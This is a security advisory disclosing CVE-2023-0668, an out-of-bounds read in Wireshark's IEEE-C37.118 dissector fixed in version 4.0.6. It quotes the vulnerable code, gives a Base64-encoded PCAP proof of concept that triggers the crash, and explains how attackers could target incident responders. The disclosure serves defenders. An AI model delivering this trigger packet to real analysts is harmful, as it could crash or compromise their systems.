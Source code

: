 ```yaml
---
layout: default
title: CVE-2023-0668
categories: nav
showinnav: false
---
```



# CVE-2023-0668: Wireshark IEEE-C37.118 parsing buffer overflow

[AHA!] has discovered an issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Monday, June 5, 2023. [CVE-2023-0668] has been assigned to this issue.

# Executive Summary

Due to failure in validating the length provided by an attacker-crafted [IEEE-C37.118](https://wiki.wireshark.org/IEEE-C37.118.md) packet, Wireshark version 4.0.5 and prior, by default, is susceptible to a heap-based buffer overflow, and possibly code execution in the context of the process running Wireshark. [CVE-2023-0668] appears to be an instance of [CWE-125].

# Technical Details

This crash is caused by an out of bounds read from the global buffer `conf_phasor_type`

** Note the below array contains 17 items

`wireshark/epan/dissectors/packet-synphasor.c`
```
 363 static const value_string conf_phasor_type[] = {               
 364         { 0, "Voltage, Zero sequence"           },
 365         { 1, "Voltage, Positive sequence"       },
 366         { 2, "Voltage, Negative sequence"       },
 367         { 3, "Voltage, Reserved"                },                
 368         { 4, "Voltage, Phase A"                 },                
 369         { 5, "Voltage, Phase B"                 },
 370         { 6, "Voltage, Phase C"                 },
 371         { 7, "Voltage, Reserved"                },
 372         { 8, "Current, Zero sequence"           },
 373         { 9, "Current, Positive sequence"       },
 374         { 10, "Current, Negative sequence"      },
 375         { 11, "Current, Reserved"               },
 376         { 12, "Current, Phase A"                },
 377         { 13, "Current, Phase B"                },
 378         { 14, "Current, Phase C"                },
 379         { 15, "Current, Reserved"               },
 380         {  0, NULL                              }
 381 };
```


In `dissect_PHSCALE` (which can be found in the top frame of the stack trace.) on line 1214, the `tvb_get_guint8` function is used to retrieve 1 byte from the synphasor packet payload, and then uses that value as an index into the `conf_phasor_type` array without performing any bounds checks.

`wireshark/epan/dissectors/packet-synphasor.c`

```
1190 static gint dissect_PHSCALE(tvbuff_t *tvb, proto_tree *tree, gint offset, gint cnt)
1191 {       
1192         proto_tree *temp_tree;
1193         gint i;
1194 
1195         if (0 == cnt) {
1196                 return offset;
1197         }
1198 
1199         temp_tree = proto_tree_add_subtree_format(tree, tvb, offset, 12 * cnt, ett_conf_phconv, NULL,
1200                                                   "Phasor scaling and data flags (%u)", cnt);
1201         
1202         for (i = 0; i < cnt; i++) {
1203                 proto_tree *single_phasor_scaling_and_flags_tree;
1204                 proto_tree *phasor_flag1_tree;
1205                 proto_tree *phasor_flag2_tree;
1206                 proto_tree *data_flag_tree;
1207 
1208                 single_phasor_scaling_and_flags_tree = proto_tree_add_subtree_format(temp_tree, tvb, offset, 12,
1209                                                                                      ett_conf_phlist, NULL,
1210                                                                                      "Phasor #%u", i + 1);
1211         
1212                 data_flag_tree = proto_tree_add_subtree_format(single_phasor_scaling_and_flags_tree, tvb, offset, 4,
1213                                                                ett_conf_phflags, NULL, "Phasor Data flags: %s",
1214                                                                conf_phasor_type[tvb_get_guint8(tvb, offset + 2)].strptr);
1215         
1216                 /* first and second bytes - phasor modification flags*/
1217                 phasor_flag1_tree = proto_tree_add_subtree_format(data_flag_tree, tvb, offset, 2, ett_conf_phmod_flags,
1218                                                                   NULL, "Modification Flags: 0x%04x",
1219                                                                   tvb_get_ntohs(tvb, offset));
1220         
```

A Base64 encoded blob of an example PCAP that can trigger the issue is below.

```
1MOyoQIABAAAAAAAAAAAAP9/AAD8AAAAAAAAAAAAAAAdAQAAHQEAAAAOAAh1ZHAuc
G9ydAAgAAQAABJpAAAAAKpZAKpZAAIAAADxQgAUAAAAAQAAAAIALAAAAAAAAAAAAA
9CQP8vAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAgAsAAAAAAAAAAA
AD0JA/y8AAAAAAAAAAAUAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ABEAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC4rAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAAAAAAAAAAAAAAAAAAAAAAAAA
BRQkgUAAD3EwD/AAAAAAAAAAAAIQAAABERAQD///8AAA==
```
<br/>

# Attacker Value

By providing this poisoned IEEE C37.118 packet, an attacker could hijack the user account of an analyst running Wireshark. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. So, it would be trivial for an attacker to intentionally "get caught" in order to provide their malicious packet to an incident response analyst. Once compromised, this can provide an attacker a unique, privileged position in the targeted network.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

Note, while we expected to publicly disclose this issue in early July (60 days after disclosure to The Wireshark Foundation), the vendor publicized the issue on May 22nd in issue [19087].

* 2023-04-27 (Wed): Initial findings presented at the regularly scheduled [meeting] 0x00c7.
* 2023-05-17 (Wed): PoC validated and analysis completed for disclosure.
* 2023-05-18 (Thu): Disclosed to the vendor via email at security@wireshark.org.
* 2023-05-18 (Thu): Vendor acknowledged, and opened issue [19087] to address.
* 2023-05-21 (Sun): Patch merged to the [release-3.6](https://gitlab.com/wireshark/wireshark/-/merge_requests/10714) and [release-4.0](https://gitlab.com/wireshark/wireshark/-/merge_requests/10713) branches of Wireshark.
* 2023-05-22 (Mon): Issue [19087] made public by the vendor.
* 2023-05-24 (Wed): [CVE-2023-0668] fixed in Wireshark version [4.0.6](https://gitlab.com/wireshark/wireshark/-/commit/ac2f5a01286addcb34ffb204e1eeb5fd8ccdb85c)
* 2023-06-05 (Mon): Public disclosure of [CVE-2023-0668]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2023-0668]: https://takeonme.org/cves/CVE-2023-0668.html
[CWE-125]: https://cwe.mitre.org/data/definitions/125.html
[meeting]: https://takeonme.org/meetings.html
[19087]: https://gitlab.com/wireshark/wireshark/-/issues/19087
[Wireshark]: https://www.wireshark.org/download.html
